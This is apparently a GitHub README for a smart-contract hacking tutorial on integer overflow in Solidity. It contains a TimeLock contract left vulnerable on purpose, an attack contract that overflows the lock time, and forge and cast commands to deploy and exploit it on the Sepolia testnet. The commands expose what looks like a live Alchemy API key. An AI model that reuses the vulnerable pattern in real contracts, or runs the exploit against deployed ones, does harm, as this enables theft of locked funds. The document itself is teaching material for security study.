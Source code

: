 # Web3eg-Smart-Contract-Hacking-overFlow-and-underFlow

# 🔢 Overflow & Underflow in Solidity

## 🧠 What is Overflow and Underflow?

- **Overflow** happens when a number **increases beyond** the maximum value a variable type can store.
- **Underflow** happens when a number **decreases below** the minimum value (usually `0` for unsigned integers).

---

## 🔢 Overflow Example

```solidity
uint8 x = 255;
x = x + 1;  // Overflow
uint8 can store values from 0 to 255.

Adding 1 to 255 wraps it back to 0.

📌 Result: x == 0
```


## 🔽 Underflow Example

```solidity


uint8 y = 0;
y = y - 1;  // Underflow
Subtracting 1 from 0 wraps it around to 255.

📌 Result: y == 255
```

🔒 Is it still a problem?

✅ Solidity ≥ 0.8.0: Overflow/Underflow is automatically checked. If it happens, the transaction reverts.


❌ Solidity < 0.8.0: You must use the SafeMath library to prevent these issues.



why use timeVualt?

1- vesting contract

2- timeLock governance

3-  IDO/ LuanchToken

4- staking


# Example
TimeLock Smart Contract
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

contract TimeLock {

    mapping(address => uint) balances ;
    mapping(address => uint) timeLock ;


    function deposit() public payable {
        balances[msg.sender] += msg.value ;
        timeLock[msg.sender] = block.timestamp + 30 days;

    }

    function increaseTimeLock(uint _increaseTimeLock) public{
        timeLock[msg.sender] += _increaseTimeLock ;
    } 

    function withdraw() public payable {
    require(balances[msg.sender] > 0);
    require(timeLock[msg.sender] < block.timestamp);
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0 ;

    (bool sent ,)=msg.sender.call{value : amount}("");
    require(sent , "false");

    }
   
   
    }
```

## Script To Deploy 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

import {Script, console} from "forge-std/Script.sol";
import "src/TimeLock.sol";

contract deployTimeLock is Script {
    TimeLock public timelock;

    function setUp() public {}

    function run() public {
        vm.startBroadcast();

        timelock = new TimeLock();

        vm.stopBroadcast();
    }
}
```

## Command to deploy
```
 forge script script/TimeLock.s.sol --rpc-url https://eth-sepolia.g.alchemy.com/v2/_No8Wj79rJBMDcMY2t_Fv --private-key <your private key > --broadcast
```
## Comand to deposit

```
cast send <contract address> "deposit()" --value 1ether  --rpc-url https://eth-sepolia.g.alchemy.com/v2/_No8Wj79rJBMDcMY2t_Fv --private-key <your private key > -- --broadcast
```

## Command to withdraw but get error because you have wait 30 days

```
cast send <contract address>  "withdraw()" --rpc-url https://eth-sepolia.g.alchemy.com/v2/_No8Wj79rJBMDcMY2t_Fv --private-key <your private key >
```
## Contract to Attack 
attack.sol

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

contract ITimeLock {
    function deposit() external payable{}
    function increaseTimeLock( uint _increaseTimeLock) external{}
    function withdraw() external{}


}

contract attack{
    ITimeLock public timelock ;

    constructor( address _timelock) {
        timelock = ITimeLock(_timelock);
    }

    function deposit() external payable{
        timelock.deposit{value : msg.value}();
    }
    

    function attackTimeLock() external{
        uint overflow = type(uint256).max - block.timestamp + 1 ;
        timelock.increaseTimeLock(overflow);

    }

    function withdraw() external{
        timelock.withdraw();
    }
    receive() external payable{}
}
```

## Script to deploy

```solidity

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

import {Script, console} from "forge-std/Script.sol";
import "src/attack.sol";

contract DeployAttack is Script{


    function run() external{
        vm.startBroadcast();

    attack Attack = new attack(address(0xAb182c1FC8797c1Ef1f5493C0bcae9C365B082FA));


        vm.stopBroadcast();
    }
}
```

## Command to deploy

```
forge script script/DeployAttack.s.sol --rpc-url https://eth-sepolia.g.alchemy.com/v2/_No8Wj79rJBMDcMY2t_Fv --private-key <private key> --broadcast

```

## Command to exploit

```
cast send <contract address> "attackTimeLock()"  --rpc-url https://eth-sepolia.g.alchemy.com/v2/_No8Wj79rJBMDcMY2t_Fv --private-key <private key>

```
## Command to withdraw after exploit

```
cast send <contract address> "withdraw()"  --rpc-url https://eth-sepolia.g.alchemy.com/v2/_No8Wj79rJBMDcMY2t_Fv --private-key <private key>

```
